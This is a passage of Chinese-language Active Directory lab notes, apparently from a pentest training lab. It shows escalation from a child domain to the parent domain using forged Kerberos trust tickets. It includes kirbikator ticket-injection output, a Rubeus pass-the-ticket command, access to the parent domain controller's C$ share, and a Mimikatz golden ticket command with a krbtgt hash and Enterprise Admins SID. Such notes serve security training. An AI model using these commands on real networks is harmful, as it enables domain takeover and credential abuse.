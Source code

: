 Ticket    : C:\AD\kekeo_old\trust_tkt.kirbi
Service   : krbtgt / moneycorp.local @ dollarcorp.moneycorp.local
Principal : Administrator @ dollarcorp.moneycorp.local

> CIFS/mcorp-dc.moneycorp.local
  * Ticket in file 'CIFS.mcorp-dc.moneycorp.local.kirbi'
```

将 TGS 呈现给目标服务

```
PS C:\ad\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi

  .#####.   KiRBikator 1.1 (x86) built on Dec  8 2016 00:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com                      (oe.eo)
  '#####'                                                     * * */

Destination : Microsoft LSA API (multiple)
 < .\CIFS.mcorp-dc.moneycorp.local.kirbi (RFC KRB-CRED (#22))
 > Ticket Administrator@dollarcorp.moneycorp.local-CIFS~mcorp-dc.moneycorp.local@MONEYCORP.LOCAL : injected
```

现在就可以访问目标的文件系统了。如果能够访问，证明我们升级成了父域的DA
```
ls \\mcorp-dc.moneycorp.local\c$
```
## 方法2 （Rubeus.exe）
样可以使用 Rubeus来达到同样的效果，注意我们仍然使用最初生成的TGT.这个可以新开一个student VM测试

```
.\Rubeus.exe asktgs /ticket:C:\AD\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
```

执行完成以后，访问父域的文件系统

```
ls \\mcorp-dc.moneycorp.local\c$
```


# 子域到父域 （二）(以用户身份访问，可以执行shell)

这里貌似只能使用krbtgt的账号

下面命令制作一张用户krbtgt到父域的TGT
由于之前我们已经拿到了krbtgt的hash值，这里直接使用
```
PS C:\ad> . .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\krbtgt_tkt.kirbi"'
